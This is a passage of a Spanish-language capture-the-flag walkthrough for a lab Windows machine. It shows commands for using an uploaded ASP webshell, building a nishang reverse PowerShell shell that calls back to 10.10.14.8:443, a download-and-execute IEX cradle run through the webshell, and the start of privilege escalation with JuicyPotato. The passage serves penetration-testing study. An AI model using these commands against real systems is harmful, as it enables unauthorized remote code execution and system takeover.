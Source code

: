 y si miramos por la web `http://10.10.10.116/upload/s4vishell.asp?cmd=whoami` y ya tenemos capacidad de remote code execution.

## Vuln exploit & Gaining Access {-}

### Conneccion con una shell typo powershell de nishang {-}

```bash
git clone https://github.com/samratashok/nishang
cd nishang
ls
cd Shells
ls
cp Invoke-PowerShellTcp.ps1 PS.ps1
vi PS.ps1
```

Como siempre le añadimos `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.8 -Port 443` al final del fichero.

Nos compartimos un servidor http con python

```bash
python -m http.server 80
```

Nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

Y por la webshell nos descargamos el fichero PS.ps1 `http://10.10.10.116/upload/s4vishell.asp?cmd=powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/PS.ps1')`

Ya podemos comprobar que estamos a dentro de la maquina y que podemos ver la flag.

> Note: Si le hacemos un `[Environment]::Is64BitOperatingSystem` y un `[Environment]::Is64BitProcess`, podemos ver que el process nos da False. Aqui es recommendado siempre tirar
de la powershell nativa que seria  `http://10.10.10.116/upload/s4vishell.asp?cmd=C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/PS.ps1')`
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami
systeminfo
whoami /priv
```

Aqui vemos que tenemos privilegios SeImpersonatePrivilege, tiramos como siempre de JuicyPotatoe.exe

Lo descargamos en la maquina de atacante y lo enviamos a la victima.
